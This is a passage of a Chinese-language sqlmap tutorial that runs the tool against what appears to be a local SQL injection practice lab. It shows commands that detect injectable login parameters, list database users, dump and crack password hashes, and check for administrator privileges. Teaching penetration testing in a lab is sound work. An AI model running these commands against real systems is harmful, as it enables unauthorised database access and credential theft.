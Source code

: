 然后我们可以指定这个数据包进行探测

```
sqlmap -r post.txt        
```

他也会和我们进行交互，询问我们，这里就不一一解释了

![](https://p4.ssl.qhimg.com/t0184de93de8fd4b128.png)

可以看到，已经探测到 uname 参数存在漏洞了，问我们是否还想探测其他参数，我们选择的 y ，它检测到 passwd 也存在漏洞了，问我们是否还想探测其他参数，我们选择 n

![](https://p4.ssl.qhimg.com/t010d67187cada10591.png)

然后会让我们选择，在后续的测试中，是选择 uname 这个参数还是 passwd 这个参数作为漏洞，随便选择一个就好了。

![](https://p0.ssl.qhimg.com/t01562d119ea7abc2a0.png)

### 查看数据库的所有用户 (—users)

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users 


```

### ![](https://p1.ssl.qhimg.com/t01094c128ee722bb40.png)

### 查看数据库所有用户名的密码 (—passwords)

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords 
```

第一处询问我们是否保存密码的 hash 值为文件，我们不保存。第二处问我们是否使用 sqlmap 自带的字典进行爆破，我们选择 y，可以看出把密码爆破出来了，root 用户的密码也为 root。如果这里爆破不出来，我们可以拿 hash 值去字典更强大的地方爆破

### ![](https://p1.ssl.qhimg.com/t0163773c28f2937ed5.png)

### 查看数据库当前用户 (—current-user)

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  
```

### 判断当前用户是否有管理权限 (—is-dba)

查看当前账户是否为数据库管理员账户

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba  
```

### ![](https://p1.ssl.qhimg.com/t0121e516c7c614fc1b.png)

### 列出数据库管理员角色 (—roles)
